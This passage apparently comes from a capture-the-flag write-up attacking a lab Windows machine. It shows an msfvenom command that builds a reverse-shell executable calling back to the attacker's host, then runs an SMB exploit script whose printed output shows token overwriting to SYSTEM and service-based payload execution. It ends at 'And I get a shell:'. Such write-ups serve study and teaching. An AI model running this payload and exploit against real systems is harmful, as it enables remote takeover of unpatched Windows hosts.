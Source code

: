 #### Generate Payload

I’ll use `msfvenom` again. This time, I don’t need to worry about bad
characters or variable names, as I can use an exe:

    
    
    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.14.14_443.exe
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes
    Saved as: rev_10.10.14.14_443.exe
    

#### Run Exploit

Now I’ll start a listener, and then run the exploit:

    
    
    root@kali# python send_and_execute.py 10.10.10.4 rev_10.10.14.14_443.exe
    Trying to connect to 10.10.10.4:445
    Target OS: Windows 5.1
    Using named pipe: browser
    Groom packets
    attempt controlling next transaction on x86
    success controlling one transaction
    modify parameter count to 0xffffffff to be able to write backward
    leak next transaction
    CONNECTION: 0x82246bb8
    SESSION: 0xe10f9408
    FLINK: 0x7bd48
    InData: 0x7ae28
    MID: 0xa
    TRANS1: 0x78b50
    TRANS2: 0x7ac90
    modify transaction struct for arbitrary read/write
    make this SMB session to be SYSTEM
    current TOKEN addr: 0xe1b1df10
    userAndGroupCount: 0x3
    userAndGroupsAddr: 0xe1b1dfb0
    overwriting token UserAndGroups
    Sending file N0KFUJ.exe...
    Opening SVCManager on 10.10.10.4.....
    Creating service TMkY.....
    Starting service TMkY.....
    The NETBIOS connection with the remote host timed out.
    Removing service TMkY.....
    ServiceExec Error on: 10.10.10.4
    nca_s_proto_error
    Done
    

And I get a shell:
